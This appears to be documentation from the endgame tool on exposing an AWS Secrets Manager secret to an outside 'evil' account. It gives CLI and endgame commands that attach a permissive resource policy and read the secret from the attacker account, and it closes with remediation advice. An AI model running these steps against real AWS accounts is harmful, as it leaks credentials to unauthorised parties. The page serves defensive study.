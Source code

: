 # Secrets Manager

## Steps to Reproduce

* **Option 1**: To expose the resource using `endgame`, run the following from the victim account:

```bash
export EVIL_PRINCIPAL=arn:aws:iam::999988887777:user/evil

endgame expose --service secretsmanager --name test-resource-exposure
```

* **Option 2**: To expose the resource using AWS CLI, run the following from the victim account:

```bash
export EVIL_PRINCIPAL=arn:aws:iam::999988887777:user/evil
export VICTIM_RESOURCE=arn:aws:secretsmanager:us-east-1:111122223333:secret/test-resource-exposure
export EVIL_POLICY='{"Version": "2012-10-17", "Statement": [{"Sid": "AllowCurrentAccount", "Effect": "Allow", "Principal": {"AWS": "arn:aws:iam::999988887777:user/evil"}, "Action": "secretsmanager:*", "Resource": ["arn:aws:secretsmanager:us-east-1:111122223333:secret/test-resource-exposure"]}]}'

aws secretsmanager put-resource-policy --secret-id --resource-policy $EVIL_POLICY
```

* To view the contents of the exposed resource policy, run the following:

```bash
aws secretsmanager get-resource-policy --secret-id test-resource-exposure
```

* Observe that the contents of the exposed resource policy match the example shown below.

## Example

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Sid": "Endgame",
      "Effect": "Allow",
      "Principal": {
        "AWS": "arn:aws:iam::999988887777:user/evil"
      },
      "Action": "secretsmanager:*",
      "Resource": [
        "arn:aws:secretsmanager:us-east-1:111122223333:secret/test-resource-exposure"
      ]
    }
  ]
}
```

## Exploitation

* Authenticate to the `evil` account (In this example, `arn:aws:iam::999988887777:user/evil`)

* Run the following command in the victim account:

```bash
export VICTIM_RESOURCE=arn:aws:secretsmanager:us-east-1:111122223333:secret/test-resource-exposure

aws secretsmanager get-secret-value --secret-id $VICTIM_RESOURCE 
```

* Observe that the output resembles the following:

```json
{
  "ARN": "arn:aws:secretsmanager:us-east-1:111122223333:secret/test-resource-exposure",
  "Name": "test-resource-exposure",
  "VersionId": "DOGECOIN",
  "SecretString": "{\n  \"username\":\"doge\",\n  \"password\":\"coin\"\n}\n",
  "VersionStages": [
    "AWSCURRENT"
  ],
  "CreatedDate": 1523477145.713
}
```

## Remediation

* **Trusted Accounts Only**: Ensure that Secrets Manager secrets are only shared with trusted accounts, and that the trusted accounts truly need access to the secret.
* **Ensure access is necessary**: For any trusted accounts that do have access, ensure that the access is absolutely necessary.
* **AWS Access Analyzer**: Leverage AWS Access Analyzer to report on external access to Secrets Manager secrets. See [the AWS Access Analyzer documentation](https://docs.aws.amazon.com/IAM/latest/UserGuide/access-analyzer-resources.html#access-analyzer-secrets-manager) for more details.
* **Restrict access to IAM permissions that could expose your Secrets**: Tightly control access to the following IAM actions:
  - [secretsmanager:GetResourcePolicy](https://docs.aws.amazon.com/secretsmanager/latest/apireference/API_GetResourcePolicy.html): _Enables the user to get the resource policy attached to a secret._
  - [secretsmanager:GetSecretValue](https://docs.aws.amazon.com/secretsmanager/latest/apireference/API_GetSecretValue.html): _Enables the user to retrieve and decrypt the encrypted data._
  - [secretsmanager:DeleteResourcePolicy](https://docs.aws.amazon.com/secretsmanager/latest/apireference/API_DeleteResourcePolicy.html): _Enables the user to delete the resource policy attached to a secret._
  - [secretsmanager:ListSecrets](https://docs.aws.amazon.com/secretsmanager/latest/apireference/API_ListSecrets.html): _Enables the user to list the available secrets._
  - [secretsmanager:PutResourcePolicy](https://docs.aws.amazon.com/secretsmanager/latest/apireference/API_PutResourcePolicy.html): _Enables the user to attach a resource policy to a secret._

Also, consider using [Cloudsplaining](https://github.com/salesforce/cloudsplaining/#cloudsplaining) to identify violations of least privilege in IAM policies. This can help limit the IAM principals that have access to the actions that could perform Resource Exposure activities. See the example report [here](https://opensource.salesforce.com/cloudsplaining/)

## References

* [aws secretsmanager get-resource-policy](https://docs.aws.amazon.com/cli/latest/reference/secretsmanager/get-resource-policy.html)
* [aws secretsmanager get-secret-value](https://docs.aws.amazon.com/cli/latest/reference/secretsmanager/get-secret-value.html)
* [aws secretsmanager put-resource-policy](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/secretsmanager/put-resource-policy.html)
